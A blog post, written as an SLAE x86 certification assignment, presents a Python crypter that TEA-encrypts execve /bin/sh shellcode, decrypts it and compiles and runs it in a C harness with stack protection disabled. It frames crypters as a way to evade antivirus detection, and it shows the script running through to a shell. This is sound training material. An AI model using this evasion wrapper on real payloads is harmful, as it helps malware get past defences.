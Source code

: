 ```yaml
---
title:  "SLAE x86 Assignment 7: Crypter Script"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at the last assignment of SLAE x86. Let's dive right in!

## Understanding The Objective ##
So what are crypters? Crypters are tools that can be used to encrypt sets of data, in order to make it hard or nearly impossible for AVs to detect the content of that data. In our case, we will be building a crypter which will help us encrypt our ```execve-stack``` shellcode.

Instead of going with the conventional AES symmetric algorithm, I wanted to try something else. Hence, I will be using the ```PyTEA``` library in Python for this assignment. While this is much simpler, this method has it's own drawbacks. These can be found [here.](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm#Properties) In essence, the Tiny Encryption Algorithm uses a 128 bit key in order to encrypt.

Let's dive right in!

### Crypter Script
So this script basically generates a random key of 16 bytes. Then, encrypts the shellcode, decrypts it, and writes it to the ```shellcode.c``` file. This is then compiled and executed:
```python
#!/usr/bin/python

from pytea import TEA
import os
import binascii
import time

key = os.urandom(16)
print('current key: ', key)
tea = TEA(key)
execve = b"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
e = tea.encrypt(execve)
e_hex = binascii.hexlify(e)

print('Encrypted Hex Shellcode: ' +  e_hex)
time.sleep(1)

print('Decrypting And Executing')
time.sleep(1)
decrypted = tea.decrypt(e)

print('Decrypted Shellcode: ' + decrypted)


shellfile = open("shellcode.c", "w")
shellfile.write("""#include<stdio.h>

#include<string.h>

unsigned char code[] = \\
\"""")
shellfile.close()
shellfile = open("shellcode.c", "a")
shellfile.write(decrypted)
shellfile.close()
shellfile = open("shellcode.c", "a")
shellfile.write("""";

main()
{

        printf(\"Shellcode Length:  %d\\n\", strlen(code));

        int (*ret)() = (int(*)())code;
        ret();

}""")

shellfile.close()

os.system("gcc -fno-stack-protector -z execstack shellcode.c -o shellcode && ./shellcode")
```
Alright! let's run this:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment7 $ python crypter_tool.py
('current key: ', '\x9a\x1bZ\x7f`\xc3\xbd\xef\xbdli\x81\xe1\x97\x970')
Encrypted Hex Shellcode: efa5ae8b718d117258da58dd315b1402be6903b87b954a336d26d2f551e03b7598b2c0961e95dd2a34b8aeadabb9f96332437bbfe24cdf91bc13cf332ffe44df2a9bc8c861cd4598bd7f6d981c6c293526760d85b769830979b2809144e45a097b62c92049cdd01838e060e9741c7972
Decrypting And Executing
Decrypted Shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
shellcode.c:8:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    8 | main()
      | ^~~~
Shellcode Length:  25
$
```
With this, we are done with all the assignments of SLAE x86! Stay tuned for SLAE x64!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE - 1534
